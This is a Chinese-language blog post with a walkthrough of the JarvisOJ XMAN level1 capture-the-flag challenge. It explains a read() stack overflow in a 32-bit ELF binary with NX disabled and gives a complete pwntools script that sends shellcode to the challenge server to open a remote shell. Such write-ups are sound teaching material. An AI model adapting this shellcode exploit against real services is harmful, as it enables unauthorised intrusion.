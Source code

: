 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel1题解
date: 2018-07-24 16:37:00
author:     "许大仙"
catalog: true
tags:
    - CTF
---
```


day2：XMANlevel1
题目链接：https://www.jarvisoj.com/challenges

## 一、初入pwn ##

![XMAN LEVEL1](/img/assets/img/xmanlevel1.jpg)

作为小白,甚至下载完level1.80eacdcd51aca92af7749d96efad7fb5都一脸懵逼。

按照pwn的思路，肯定是要反汇编的，所以level1应该是个可执行文件[即PE,ELF格式的文件]，显然这个后缀不对，linux下后缀应该为.out或者没有后缀。

故第一步把.80eacdcd51aca92af7749d96efad7fb删掉。

用ls命令查看，并没有可执行文件的特征[即没标绿加粗]，使用命令./level1，也依旧不能运行。

![binwalk](/img/assets/img/binwalk.jpg)

- 用binwalk查看，发现发现是32-bit的ELF格式的可执行文件。说明改后缀是对的。
- 但是按道理64位系统linux也可以执行这样的32位的文件的。

问题出在，linux文件默认权限。linux中文件默认权限最大为666,也就rw-rw-rw-[每个文件有所有者、所在组、其它组的概念,每个---对于一个概念下的权限]。目录默认权限最大为777。
所以文件本身是不可执行的，必须手动赋予执行权限。
[参考linux文件权限](https://blog.csdn.net/chengqiuming/article/details/78601977)

> chmod +x level1

> ./level1

这时候才执行level1了，ls命令查看level1变绿变粗

注：题目中nc pwn2.jarvisoj.com 9877，标识了域名nc pwn2.jarvisoj.com以及level1挂的端口。

## 二、XMAN level1题解 ##

### 解题思路 ###

本题的最终目标是得到一个受攻击服务器的shell[寻找服务器flag文件，找到flag]

尝试运行level1，有输入字符串的要求，很可能存在栈溢出攻击。

用checksec保护机制查看，NX没开，说明栈有可执行权限，并且canary未发现，那么使用简单的shellcode栈溢出攻击就可以了。

![checksec](/img/assets/img/checksec)

通过IDA反汇编level1，在main函数中观察到vulnerable_function函数的调用，说明脆弱性攻击点很可能在这个函数中，跟进.

![vulnerable_function](/img/assets/img/vul.jpg)

发现有read函数,会读取字节，暂存在栈中[&buf是栈中的地址],这样我们就找到了栈溢出点。根据参数入栈的顺序[先入栈的，参数位置最右]可以只知道read(0,&buf,0x100)[请求读0x100,如果到EOF就自动停止，只返回读到的部分的字节]，也就是说最多我们允许读取0x100字节，可以比0x100少。

![vulnerable_function](/img/assets/img/vul_func.jpg)

通过观察&buf的位置，存储在eax寄存器中，具体是ebp+buf=ebp-88h。在调用read之前，还调用了printf函数，这个函数将"What's this:%p?\n"和lea eax,[ebp+buf]以及push eax得到的&buf给打印出来了。所以连shellcode放置的首地址都给了。[只要用pwntools交互的时候，在收到的信息中进行截取就好]

栈中的情况是：

![栈帧图](/img/assets/img/zhan.jpg)

我们可以放置shellcode的缓冲区可以是0x88+0x4[0x4是旧ebp的位置]<0x100,所以read确实导致了栈溢出的危险。

以上是汇编代码的分析，还可以使用F5，观察C代码

![vulnerable_function函数的C代码](/img/assets/img/ccode_vul.jpg)

最终的payload构造：

![payload构造](/img/assets/img/payload.jpg)

### 解题步骤 ###

     1 #!/usr/bin/python
     2 # -*- coding: utf-8 -*-
     3 
     4 
     5 from pwn import *   #导入pwntools模块
     6 context(log_level = ‘debug‘, arch = ‘i386‘, os = ‘linux‘)  #被攻击服务器的环境为32位linux，这里进行一些环境设置为正常运行exp
     7  #比如32的汇编和64的汇编不同，如果不设置context会导致一些问题
     8 shellcode = asm(shellcraft.sh())  //获得产生bin/sh的shellcode代码，原理：调用默认库libc库中的system(“/bin/sh”)函数
     9 #  io = process(‘./level1‘)   #本地测试是调试用
    10 io = remote(‘pwn2.jarvisoj.com‘, 9877)  #进行远程链接
    11 text = io.recvline()[14: -2]  #接受到的一行字符串截取14到-2的部分[第15个字符到倒数第2个字符]
    12 #  print text[14:-2]  
    13 buf_addr = int(text, 16)  #将字符串"0xffeb9d30"转换为16进制数0xffeb9d30
    14 
    15 payload = shellcode + ‘\x90‘ * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr)   #p32(buf_addr)将数值0xffeb9d30转换为字符串
     [注意不是"0xffeb9d30"，而是0xff 0xeb 0x9d 0x30 ascii码对应的字符]
    16 io.send(payload)   #发送payload
    17 io.interactive()   #进行交互(得到服务器的shell，能对服务进行命令输入，操作)
    18 io.close()   #关闭交互


结果：

![flag](/img/assets/img/flag_level.jpg)




## 三、read函数补充 ##
ssize_t read(int fd, void *buf, size_t count);
会把参数fd所指的文件传送count个字节到buf指针所指的内存中[读上来的数据保存在缓冲区buf中，同时文件的当前读写位置向后移。如果buf指向栈，就会存在栈溢出的可能]。若参数nbyte为0，则read()不会有作用并返回0。返回值为实际读取到的字节数，如果返回0，表示已到达文件尾或无可读取的数据。错误返回-1,并将根据不同的错误原因适当的设置错误码。返回值类型是ssize_t，表示有符号的size_t。

read函数返回时，返回值说明了buf中前多少个字节是刚读上来的。有些情况下，**实际读到的字节数（返回值）会小于请求读的字节数count，例如：读常规文件时，在读到count个字节之前已到达文件末尾。例如，距文件末尾还有30个字节而请求读100个字节，则read返回30，下次read将返回0**。
